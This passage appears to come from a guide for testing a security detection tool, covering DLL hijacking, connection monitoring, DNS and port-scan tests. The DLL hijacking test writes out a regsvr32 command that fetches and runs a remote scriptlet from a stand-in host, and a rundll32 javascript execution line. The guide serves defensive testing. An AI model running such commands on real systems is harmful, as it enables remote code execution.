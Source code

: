 **Expected detection:** File download attempts with source URL

### **Test 4: DLL Hijacking Detection**

**What it detects:** DLL hijacking attempts

**How to test:**

```cmd
# Run as Administrator:
regsvr32.exe /s /n /u /i:http://example.com/payload.sct scrobj.dll
rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication\";document.write();
```

**Expected detection:** DLL hijacking patterns with high severity

## 🌐 **Network Detection Tests**

### **Test 1: Suspicious Connections**

**What it detects:** Unusual network connections

**How to test:**

```cmd
netstat -an
netstat -an | findstr :80
netstat -an | findstr :443
```

**Expected detection:** Network connection events with source/destination

### **Test 2: DNS Query Monitoring**

**What it detects:** DNS resolution requests

**How to test:**

```cmd
nslookup google.com
nslookup microsoft.com
ping google.com
```

**Expected detection:** DNS query events with domain names

### **Test 3: Port Scanning Detection**

**What it detects:** Port scanning activities

**How to test:**

```cmd
# Run as Administrator:
netstat -an | findstr LISTENING
netstat -an | findstr ESTABLISHED
```

